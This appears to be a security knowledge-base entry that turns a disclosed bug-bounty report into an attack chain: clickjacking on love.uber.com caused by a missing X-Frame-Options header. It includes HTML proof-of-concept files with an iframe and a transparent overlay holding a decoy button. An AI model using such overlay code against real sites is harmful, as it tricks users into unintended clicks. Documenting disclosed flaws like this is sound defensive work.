

---
tags:
  - clickjacking
  - x-frame-options
  - web-vulnerability
  - uber
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
commands:
  - '[[commands/create-iframe-test-html]]'
platforms:
  - Web
complexity: low
procedures:
  - '[[procedures/Test-Clickjacking-by-Embedding-in-Iframe]]'
  - '[[procedures/Demonstrate-Clickjacking-with-Screenshot-POC]]'
step_count: 2
techniques:
  - '[[Drive-by Compromise]]'
description: >-
  Demonstrates clickjacking vulnerability on love.uber.com by embedding the site
  in an iframe due to absent X-Frame-Options header, with proof-of-concept via
  screenshot.
skill_level: beginner
impact_level: low
id: 0ea0e6c8-b133-451e-82ba-02866d9b862b
created_at: '2025-12-14T17:28:04.693Z'
updated_at: '2025-12-14T17:28:04.693Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Drive-by Compromise]]'
---
# Clickjacking on love.uber.com via Missing X-Frame-Options Header

## Overview

This attack chain exploits a clickjacking vulnerability on the love.uber.com domain, where the absence of the X-Frame-Options HTTP header allows the site to be embedded in an iframe without restrictions. An attacker can overlay invisible or misleading elements to trick users into performing unintended actions, such as clicking buttons or entering credentials. In this case, the reporter discovered the issue by attempting to load the domain in an iframe and captured a proof-of-concept screenshot. Uber assessed the risk as low because the site lacks login functionality or state-changing actions, but it highlights the importance of frame-busting headers on all web pages.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~2 minutes |
| Skill Level | Beginner |
| Complexity | Low |
| Impact Level | Low |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Chrome, Firefox)
- Text editor for creating HTML files

### Target Environment

- Target: love.uber.com domain
- Required services/ports: HTTP/HTTPS on port 80/443
- Network access requirements: Internet access to load the target site

### Initial Access Requirements

- No credentials required
- Public network access
- No prior access needed

## Detailed Attack Procedures

### Step 1: Test for Clickjacking Vulnerability
procedure: [[procedures/Test-Clickjacking-by-Embedding-in-Iframe]]

**Objective**: Verify if the target site can be loaded in an iframe, indicating lack of X-Frame-Options protection.

**Instructions**: Create a simple HTML test file to embed the target domain in an iframe and open it in a browser to check if it loads successfully.

Use [[commands/create-iframe-test-html]] to generate the test file:

```bash
cat > test-iframe.html << EOF
<!DOCTYPE html>
<html>
<head>
    <title>Clickjacking Test</title>
</head>
<body>
    <h1>Testing iframe embedding</h1>
    <iframe src="https://love.uber.com" width="800" height="600"></iframe>
</body>
</html>
EOF
```

Then open the file in a web browser (e.g., `open test-iframe.html` on macOS or drag to browser on other OS).

**Expected Output**: The love.uber.com site loads fully within the iframe without any framing errors or blocks.

**Success Indicators**:
- Target site renders inside the iframe
- No browser console errors related to X-Frame-Options

### Step 2: Capture Proof-of-Concept
procedure: [[procedures/Demonstrate-Clickjacking-with-Screenshot-POC]]

**Objective**: Document the successful embedding to prove the vulnerability exists.

**Instructions**: With the iframe test loaded, take a screenshot showing the embedded site. Optionally, overlay a transparent div to simulate a clickjacking attack where clicks are redirected.

Enhance the test HTML by adding an overlay (edit test-iframe.html manually or recreate with additional echo commands):

```bash
cat > enhanced-iframe.html << EOF
<!DOCTYPE html>
<html>
<head>
    <title>Clickjacking POC</title>
    <style>
        .overlay { position: absolute; top: 0; left: 0; width: 800px; height: 100px; background: transparent; z-index: 10; }
        .bait { position: absolute; top: 50px; left: 50px; }
    </style>
</head>
<body>
    <h1>Clickjacking POC</h1>
    <iframe src="https://love.uber.com" width="800" height="600"></iframe>
    <div class="overlay">
        <button class="bait" onclick="alert('Click intercepted!')">Click Me (Fake Button)</button>
    </div>
</body>
</html>
EOF
```

Open enhanced-iframe.html in a browser and capture a screenshot (e.g., using browser dev tools or OS screenshot tool) showing the iframe and overlay.

**Expected Output**: Screenshot (e.g., uber.png) displaying the embedded site with potential overlay elements.

**Success Indicators**:
- Screenshot confirms iframe embedding
- Overlay demonstrates potential for click theft

## Attack Chain Summary

### Key Achievements

1. Confirmed absence of X-Frame-Options header on love.uber.com
2. Demonstrated iframe embedding with proof-of-concept screenshot
3. Highlighted low-risk impact due to site's limited functionality

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Drive-by Compromise]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01*
